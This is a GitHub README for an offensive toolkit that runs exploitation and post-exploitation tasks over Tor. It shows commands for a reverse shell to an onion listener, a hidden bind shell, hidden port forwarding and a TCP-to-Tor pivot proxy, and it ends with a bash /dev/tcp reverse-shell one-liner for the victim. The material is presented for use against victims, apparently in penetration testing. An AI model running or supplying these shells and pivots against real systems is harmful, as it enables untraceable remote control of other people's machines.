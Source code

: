# Offensive Tor Toolkit
**Offensive Tor Toolkit** is a series of tools that simplify the use of Tor for typical **exploitation and post-exploitation tasks**.

In exploitation and post-exploitation phases, the victim needs to access Tor. All of this tools have an **embedded instance of Tor** and they are completely separated from each other. In this way, you only need to upload one file to the victim in order to run the required action.

Please, read the [**docs**](https://atorrescogollo.github.io/geekdoc/projects/offensive-tor-toolkit/) for more information.

## TL;DR
```bash
git clone https://github.com/atorrescogollo/offensive-tor-toolkit.git
cd offensive-tor-toolkit
docker build -t offensive-tor-toolkit .
docker run -v $(pwd)/dist/:/dist/ -it --rm offensive-tor-toolkit
```
### Reverse Shell over Tor
* **Attacker**
```bash
$ grep '^HiddenServicePort' /etc/tor/torrc
HiddenServicePort 4444 127.0.0.1:4444
$ nc -lvnp 4444
```
* **Victim**
```bash
$ ./reverse-shell-over-tor -listener m5et..jyd.onion:4444
```

### Bind Shell over Tor
* **Victim**
```bash
$ ./hidden-bind-shell -data-dir /tmp/datadir/ -hiddensrvport 1234
...
Bind shell is listening on hgnzi...g6yew.onion:1234
```
* **Attacker**
```bash
$ alias nctor='nc --proxy 127.0.0.1:9050 --proxy-type socks5'
$ nctor -v hgnzi...g6yew.onion 1234
```

### Hidden Port Forwarding
* **Victim/Pivot**
```
$ ./hidden-portforwarding -data-dir /tmp/pf-datadir -forward 127.0.0.1:1111 -hidden-port 9001
...
Forwarding xa7l...a4el.onion:9001 -> 127.0.0.1:8080
```
* **Attacker**
```bash
$ alias curltor="curl --socks5-hostname 127.0.0.1:9050"
$ curltor http://xa7l...a4el.onion:9001/
```

### TCP2Tor Proxy
* **Attacker**
```bash
$ grep '^HiddenServicePort' /etc/tor/torrc
HiddenServicePort 4444 127.0.0.1:4444
$ nc -lvnp 4444
```
* **Pivot**
```
$ ./tcp2tor-proxy -listen 0.0.0.0:60101 -onion-forward m5et..jyd.onion:4444
...
Proxying 0.0.0.0:60101 -> m5et..jyd.onion:4444
```
* **Victim**
```
$ bash -i >& /dev/tcp/<PIVOT_IP>/60101 0>&1
```
